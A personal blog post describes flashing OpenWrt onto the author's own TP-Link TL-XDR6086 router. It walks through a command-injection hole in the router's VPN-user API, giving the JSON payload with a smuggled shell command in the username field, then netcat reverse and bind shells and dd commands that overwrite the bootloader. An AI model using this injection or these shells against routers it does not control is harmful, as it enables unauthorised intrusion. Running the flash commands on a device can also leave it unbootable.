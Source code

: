 ```yaml
---
title: 'Install Openwrt in TP-Link TL-XDR6086'
description: 'use shell injection to flash Openwrt into TL-XDR6086'
pubDate: 'Aug 29 2024'
editDate: 'Nov 14 2024'
heroImage: 'https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/727ee92c-717e-4d32-b8f2-98b9865c8300/small'
lang: 'en'
---
```


I thought I should buy a router before I would move to japan. 

For

1. OpenWrt Installable: I love openwrt, because of providing many unique functions like global transparent proxy.
2. Internal Antenna: Takes up less space and is neater.
3. 2.5 Gbps Cable Interface
4. Strong CPU: for OpenWrt and 2.5 Gbps bandwidth

I found TP-Link TL-XDR6086 in OpenWrt device list and bought one.

You can find the [tutorial](https://openwrt.org/toh/tp-link/xdr-6086) easily in OpenWrt website.

## Common knowledge you must know

It should be considered unusual that you can replace your router's operating system. Similar to gaining root access on an Android phone, this involves obtaining permissions that manufacturers intentionally restrict, typically through exploiting system vulnerabilities.

If you do what I did but in your case your router can never boot again, not my fault. It works on my machine.

You **should** search the device information in [OpenWrt Wiki](https://openwrt.org/toh/tp-link/xdr-6086), **not** Baidu, yahoo or other random somewhere.

You might need to download [built packages](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) from OpenWrt source, to avoid compile them manually.

I assume you know how to use Linux (or MacOS, freeBSD). If you only use Windows, get outta here.

## How the vulnerability works

When you call `http://192.168.1.1/stok=${STOK}/ds` to create a VPN user, there is a slot you can inject the shell command.

> After entering the admin page, use F12 to find the fetch requests, then you can get `${STOk}`.

```json
{
    "vpn":{
        "table":"user",
        "para":{
            "username":"; INJECT YOUR SHELL COMMAND HERE&",
            "password":"password1",
            "type":"l2tp",
            "netmode":"client2lan",
            "localip":"192.168.2.1",
            "dns":"1.1.1.1",
            "block":"0",
            "ippool":"new",
            "maxsessions":"1"
        },
        "name":"user_1"
    },
    "method":"add"
}
```

> For example, if you want to execute `echo 'fuck'`, `username` should be `;echo 'fuck'&`

Now, the shell command is stored in database. The trigger is when you delete this VPN user.

## Replace with OpenWrt

First, prepare a USB media. 

> By the way, based on what I've observed in Chinese forums, where many experienced users are skilled at bypassing CCP monitoring through VPNs, the most popular solution in Chinese OpenWrt community is to set up a TFTP server on a PC and configure the router to download everything from it.
>
> This is too troubling. For windows users, they even suggest them to install WSL then operate like a linux user.
>
> I think this is because many of them shares the solution without fully understanding why that works.

Download [`natcat`](https://downloads.openwrt.org/releases/21.02-SNAPSHOT/packages/aarch64_cortex-a53/packages/) into USB media. You'd better format it with FAT32, and rename the package into `netcat.ipk`.

### Mount USB media and prepare reflect shell

Run the following commands through the vulnerability I mentioned before.

```sh
mkdir /tmp/usb
```

Listen with netcat in your PC to receive the output from the injected shell.

```sh
nc -l -p 4444
```

> netcat is a network testing tool, also is widely used for reflect shell.
>
> Listen on your PC with netcat, and pipe the output of injected shell into `nc` in router, then you can get the output in your PC.
>
> If netcat is installed in the router, is is possible to listen with netcat on router from PC. By piping the message from pc, you can run the command from your PC.

For example, you can use this command to check if the creation is successful. Replace `192.168.1.100` with your PC's address.

```sh
ls -la /tmp | nc 192.168.1.100 4444
```

If succeed, mount the USB media. 

Attention that if you have plugged out the media, the number will increase, like `sda2` `sda3`, when you plug in. The number will recover to 1 after you reboot the device.

```sh
mount -t vfat /dev/sda1 /tmp/usb
```

> use `ls /dev | nc 192.168.1.100 4444` to find the name of USB media.

Check whether mounting is successful

```sh
ls -la /tmp/usb | nc 192.168.1.100 4444
```

Then, install natcat

```sh
opkg install /tmp/usb/netcat.ipk
```

Now, it is more convenient to run the shell command by netcat.

```sh
netcat -lp 4444 | sh
```

### Backup

backup to usb media:

```sh
dd if=/dev/mtdblock9 of=/tmp/usb/backup.img bs=131072
```

### Install U-Boot

**CAUTION: DANGEROUS OPERATION! Ensure acknowledging what and why you are doing!**

According to [this GitHub issue](https://github.com/hanwckf/immortalwrt-mt798x/issues/207), you can compile the u-boot from [the source code for bl-mt98x](https://github.com/hanwckf/bl-mt798x). *Of course you can also download form others*.

Execute these two commands *in order*. You must ensure the first one is successful then you can run the second one. Maybe the filename is different, the key is bl2 first then fip.

```sh
dd bs=131072 conv=sync of=/dev/mtdblock9 if=/tmp/usb/xdr608x-bl2.bin
dd bs=131072 conv=sync of=/dev/mtdblock9 seek=28 if=/tmp/usb/xdr608x-fip.bin
```

> use `2>&1 |` to receive the error

Set ip address in PC as `192.168.1.100/24`, the default gateway as `198.168.1.1`.

Cut off the power of router, then power up. If going well, the LED should blinks with red. Open <http://192.168.1.1> in browser and you can see the u-boot web ui.

![u-boot web ui](https://imagedelivery.net/6gszw1iux5BH0bnwjXECTQ/5d6eb200-ac42-4b02-c09b-f689ec194d00/public)

### Install OpenWrt

As of August 29, 2024, XDR-6086 is not fully supported by OpenWrt. It is quite difficult to find OpenWrt firmware that is compatible with XDR-6086.

I find compatible one in a Chinese forum called En Shan Forum (恩山论坛).

